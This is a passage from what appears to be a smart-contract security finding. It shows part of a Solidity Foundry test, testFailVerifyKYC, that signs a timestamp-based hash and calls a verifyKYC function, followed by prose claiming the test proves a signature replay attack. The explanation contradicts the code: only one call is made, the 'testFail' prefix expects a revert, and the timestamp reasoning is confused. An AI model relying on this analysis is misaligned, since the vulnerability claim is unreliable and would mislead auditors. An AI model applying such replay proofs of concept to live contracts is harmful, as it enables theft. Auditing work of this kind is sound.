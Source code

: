 ```solidity
           rootAddressSignature,
           lodeProtocolSignature
       );
   }


   function testFailVerifyKYC() public {
       listOfAddresses.push(rootAddress);
       listOfAddresses.push(rootAddress);
       uint nonce = 0;
      
       bytes32 messageHash = keccak256(
           abi.encodePacked(
               listOfAddresses,
               rootAddress,
               merkleRoot,
               nonce,
               block.timestamp,
               address(lode),
               block.chainid,
               block.timestamp
           )
       );
      
       bytes32 msgHash = MessageHashUtils.toEthSignedMessageHash(messageHash);


       (uint8 v1, bytes32 r1, bytes32 s2) = vm.sign(LodePrivateKey, msgHash);
       (uint8 v, bytes32 r, bytes32 s) = vm.sign(rootPrivateKey, msgHash);


       rootAddressSignature = abi.encodePacked(r, s, v);
       lodeProtocolSignature = abi.encodePacked(r1, s2, v1);


       skip(10);


       lode.verifyKYC(
           listOfAddresses,
           rootAddress,
           merkleRoot,
           rootAddressSignature,
           lodeProtocolSignature
       );
   }
}

```
The provided code demonstrates how a replay attack can exploit the verifyKYC function due to improper use of block.timestamp in the message hash. Since the block.timestamp is included twice in the commonHash but not explicitly validated outside the function, an attacker can reuse signatures (rootAddressSignature and lodeProtocolSignature) within the same timestamp window (e.g., a single block or limited period) to bypass protections, effectively replaying the transaction. The same messageHash (including a constant nonce and block.timestamp) is reused. The skip(10) call advances time but does not affect the reused messageHash since it’s based on the unchanged initial timestamp.
The verifyKYC function accepts the replayed signature, allowing the action to repeat, proving a replay vulnerability.
